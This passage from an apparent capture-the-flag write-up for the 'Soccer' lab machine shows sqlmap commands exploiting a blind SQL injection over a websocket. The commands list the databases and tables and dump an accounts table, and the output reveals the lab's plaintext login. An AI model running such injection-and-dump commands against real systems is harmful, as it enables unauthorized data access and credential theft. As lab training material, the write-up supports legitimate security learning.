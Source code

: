 ### Enumerating the Database

From the looks of it it seems that `sqlmap` has found a boolean and time-based blind inject. I reuse the same command from earlier and add `--dbs` to have `sqlmap` automatically pick up where  it left up and exploit the vulnerability to list me all available databases:

```bash
$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --dbs --threads 10

...[snip]...
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
...[snip]...
```

`soccer_db` seems like the only non-default DB. Replacing  `--dbs` with `-D soccer_db` and adding `--tables` to get a list of all tables in the Soccer database:

```bash
$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 -D soccer_db --tables --threads 10

...[snip]...
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
...[snip]...
```

Seems there is only one table `accounts`. So this time I replace `--tables` with `-T accounts` and add `--dump` to dump the whole database.

> Using `--dump` in a boolean and time-based SQL injections could be very slow. So be careful! But given this is a CTF I’m not expecting tons of data.
>

```bash
$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 -D soccer_db -T accounts --dump --threads 10

...[snip]...
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
...[snip]...
```
